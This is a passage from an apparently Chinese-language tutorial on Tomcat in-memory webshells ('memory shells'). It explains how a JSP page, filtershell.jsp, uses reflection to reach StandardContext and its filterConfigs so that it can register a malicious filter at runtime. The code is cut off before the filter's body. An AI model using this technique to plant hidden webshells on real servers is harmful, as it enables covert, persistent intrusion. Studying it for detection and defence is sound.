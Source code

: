 ![图片](初探内存马/640.webp)



通过上面的流程，可知所有的`filter`信息都是从`context（StandardContext）`获取到的，所以假如可以获取到这个`context`就可以通过反射的方式修改`filterMap`和`filterConfig`从而达到动态注册filter的目的。

## 动态加载filter

filtershell.jsp:

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "demo";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){

        //filter部分写好
        Filter filter = new Filter() {
```